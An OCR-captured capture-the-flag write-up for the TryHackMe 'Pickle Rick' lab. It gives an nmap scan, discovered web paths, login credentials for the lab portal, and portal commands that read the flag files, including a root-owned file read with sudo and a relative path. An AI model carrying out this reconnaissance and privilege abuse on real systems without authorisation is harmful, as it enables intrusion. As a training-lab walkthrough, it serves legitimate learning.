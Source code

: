 # TRYHACKME : Pickle Rick
> **NOTE: Straightforward write-up. If not for you, go search somewhere else.**
## NMAP SCAN
```
nmap -sVC -T5 10.10.238.123
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 
Nmap scan report for 10.10.238.123
Host is up (0.40s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ub
| ssh-hostkey: 
|   3072 7f:5b:85:3b:9b:cd:09:0f:a6:5a:16:06:1a:61:aa:91 
|   256 55:15:f1:08:83:83:48:37:b5:1f:b2:f1:f4:f2:03:8e (
|_  256 fd:93:94:48:47:1b:ea:d3:3a:5f:56:f5:ce:b8:d8:00 (
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## DIRBUSTER
```
/login.php
/assets
/robots.txt
        Wubbalubbadubdub
/portal.php
```

## /login.php
- Username: R1ckRul3s
- Password: Wubbalubbadubdub

## Rick Portal
```
less Sup3rS3cretPickl3Ingred.txt
less clue.txt
less /home/rick/"second ingredients"
sudo less ../../../root/3rd.txt
```
                                    
